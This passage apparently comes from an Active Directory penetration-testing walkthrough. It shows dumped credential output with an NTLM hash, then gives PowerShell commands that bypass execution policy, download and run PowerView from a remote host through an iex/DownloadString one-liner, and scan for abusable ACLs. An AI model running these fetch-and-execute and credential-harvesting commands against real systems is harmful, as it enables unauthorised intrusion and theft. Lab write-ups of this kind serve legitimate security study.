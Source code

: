 ```
         * NTLM     : d66874caee4c5def429e68e396539771
         * SHA1     : c332b7ee20fe397224ca6b5ce545f34340d86df5
        tspkg :
        wdigest :
        kerberos :
        ssp :
         [00000000]
         * Username : VDI-SERVER$
         * Domain   : (null)
         * Password : (null)
        credman :

```

## Domain Enumeration

Use `PowerView.ps1` to enumerate the domain.

```
powershell -ep bypass
```

```
iex ((New-Object Net.WebClient).DownloadString("http://192.168.100.11/PowerView_dev.ps1"))
```

<br/>

Then check interesting ACLs:

```
Invoke-ACLScanner -ResolveGUIDs
```

![picture 24](images/1a5ceabb30692ed81c408883a786ffc5ddaacf54cd3270e28458b22bb718a15d.png)  
